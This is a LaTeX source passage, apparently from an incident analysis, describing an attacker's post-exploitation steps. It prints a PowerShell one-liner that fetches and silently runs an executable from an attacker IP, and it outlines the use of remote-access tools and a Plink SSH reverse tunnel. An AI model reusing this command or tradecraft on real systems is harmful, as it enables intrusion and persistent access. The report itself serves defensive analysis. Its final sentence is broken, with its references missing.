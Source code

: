 \documentclass[11pt,a4paper]{article}
\newcommand{\code}[1]{{\small\ttfamily #1}}
\newenvironment{codeblock}
  {\par\needspace{3\baselineskip}\vspace{3pt}\begin{lrbox}{\cbbox}\begin{minipage}{\dimexpr\linewidth-1.6em}\footnotesize\ttfamily\raggedright\vspace{3pt}}
  {\vspace{3pt}\end{minipage}\end{lrbox}\noindent\hspace*{0.4em}\colorbox{codebg}{\usebox{\cbbox}}\par\vspace{3pt}}
\newcommand{\tier}[1]{{\small\color{meta}\textsf{[#1]}}}
\begin{document}
\subsection{Post-exploitation}

With \code{SYSTEM} execution, the batch script fetched a second stage. A PowerShell one-liner downloaded an installer from an attacker server and ran it silently \tier{documented}:

\begin{codeblock}
powershell -NoProfile -ExecutionPolicy Bypass -Command\\
"\$url = 'http://84.200.80[.]252/SAgentInstaller\ldots.zip';\\
\$out = 'C:\textbackslash Windows\textbackslash appcompat\textbackslash SAgentInstaller\ldots.exe';\\
Invoke-WebRequest -Uri \$url -OutFile \$out;\\
Start-Process \$out -ArgumentList '/silent' -Wait"
\end{codeblock}

The payload, despite its \code{.zip} name, was an executable: a legitimate Zoho Unified Endpoint Management System (UEMS) installer. The attacker used the UEMS agent to deploy the Zoho Assist and AnyDesk remote access tools, giving durable hands-on access without custom malware. Through Zoho Assist they enumerated SMB sessions and local and domain users, attempted to change account passwords, and tried to add accounts to the local Administrators and \code{Domain Admins} groups \tier{documented}.

For hands-on access, the attacker staged two renamed utilities in \code{C:\textbackslash Windows\textbackslash Temp}: \code{sihosts.exe} (Plink, the PuTTY command-line SSH client) and \code{silcon.exe} (PuTTY). These established an SSH reverse tunnel to a command-and-control server over port 433, through which the C2 could forward inbound RDP to the compromised host on port 3389.  and  give the full sequence.
\end{document}
